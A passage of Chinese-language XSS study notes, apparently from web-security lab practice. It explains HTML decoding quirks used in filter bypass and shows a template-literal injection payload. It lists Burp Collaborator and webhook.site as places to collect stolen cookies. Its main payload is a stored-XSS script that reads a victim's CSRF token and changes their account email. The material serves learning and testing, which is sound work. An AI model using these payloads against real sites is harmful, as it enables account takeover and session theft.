 注意：<、>html编解码的特殊性

1. <、>若是不以正确标签的形式出现在html中，就会被html实体化
2. <、>除了能在属性值(字符串)中被自动html解码，其他地方都不会，所以不要对<、>进行html编码
3. <tag>其中的tag也不会自动html解码 -> **标签一旦过滤了就不要想着编码标签来绕过！**

其他细节：

1. 属性值就是不加""，后面还是自动会加上的，所以一样！最后的html解码值都会在"中"
2. html编码之后一般都需要url编码，因为html编码都带有&符号，而这个符号在url参数中是代表下一个符号，导致错误

### 16、JS的模板字符串注入

```
var message = `0 search results for 'JavaScriptï¼${alert(1)}'`;
```

遇到有带反斜杠的字符串，直接插入${alert(1)}就能执行！
关于反引号的知识：

```
    prompt`1`
    alert`2${alert`3`}` //都能执行
```

### 17、获取COOKIE的HTTP临时服务

1. BP的Collaborator
2. webhook.site

### 18、XSS绕过CSRF 客户端存储token

例如：用户登录后存在修改email的功能

```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    
    <label for="email">Email</label>
    <input required type="email" name="email" id="email" value="">
    
    <input required type="hidden" name="csrf" value="33VaALOJDtWo7yORPFVHS5aeGreVvYGz">
    
    <button class="button" type="submit">Update Email</button>

</form>
```

但是，这个站点存在一个比如存储的XSS：在用户评论区的payload：

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;          // 请求完成后触发 handleResponse
req.open('get', '/my-account', true); // 发送 GET 请求到用户账户页面
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
